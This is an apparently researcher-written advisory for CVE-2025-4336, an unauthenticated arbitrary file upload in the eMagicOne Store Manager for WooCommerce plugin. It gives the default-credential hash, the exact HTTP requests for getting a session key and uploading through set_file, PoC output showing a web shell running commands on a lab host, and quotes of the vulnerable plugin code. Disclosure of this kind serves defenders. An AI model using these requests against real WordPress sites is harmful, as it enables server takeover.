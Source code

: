 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5- Unauthenticated Arbitrary File Upload via set_file Task'
date = 2025-05-23T05:00:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "eMagicOne"]
+++
### CVE-2025-4336

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file uploads to the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and upload arbitrary files (including PHP shells) to the WordPress root or any writable directory.



## Reproduction
* A POC [cve-2025-4336.py](https://github.com/d0n601/CVE-2025-4336/blob/main/cve-2025-4336.py) is provided to demonstrate a remote attacker uploading a web shell named `shell.php` via the default authentication mechanism, and executing remote code:

```console
python3 exploit.py https://lab1.hacker   
[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"6f46bc8b67b1c8f0dc871bcec9e162c1d43f047e5c46aec7d7fdf48d8c17ed69"}
[+] Got session key: 6f46bc8b67b1c8f0dc871bcec9e162c1d43f047e5c46aec7d7fdf48d8c17ed69
[*] Uploading file...
[*] Upload response: {"response_code":20,"message":"File was successfully uploaded"}
[*] Executing Web Shell Commands...
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 23576sec preferred_lft 23576sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86363sec preferred_lft 14363sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:ef:a9:95:6a brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```



## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage

The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' . self::TABLE_SESSION_KEYS
        . "` (`session_key`, `date_added`, `last_activity`) VALUES ('" . $this->shop_cart->p_sql( $key ) . "', '"
        . $date . "', '" . $date . "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```


### Arbitrary File Upload
With a valid session key, an attacker can upload a file using the `set_file` task:

```http
POST /?connector=bridge&task=set_file&key=<session_key>&entity_type=.&filename=hello.txt
Content-Type: multipart/form-data

file=@hello.txt;type=text/plain
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~2250+):

```php
private function set_file() {
    // ... parameter checks ...
    if ( ! $this->shop_cart->set_file( $entity_type, $filename, self::UPLOAD_FILE_NAME ) ) {
        $this->generate_error( $this->br_errors['upload_file_error'] );
    }
}
```

`classes/class-emosmcwoocommerceoverrider.php` (lines ~440+):

```php
public function set_file( $folder, $filename, $file ) {
    $destination_path = $this->get_shop_root_dir() . "$folder/$filename";
    if ( isset( $_FILES[ $file ]['tmp_name'] ) ) {
        $tmp_name = sanitize_text_field( $_FILES[ $file ]['tmp_name'] );
        $result = move_uploaded_file( $tmp_name, $destination_path );
    }
    if ( $result ) {
        die(json_encode(array(self::CODE_RESPONSE => self::SUCCESSFUL, self::KEY_MESSAGE => 'File was successfully uploaded')));
    }
}
```

**Result:** The file is written to the WordPress root (or any specified directory).
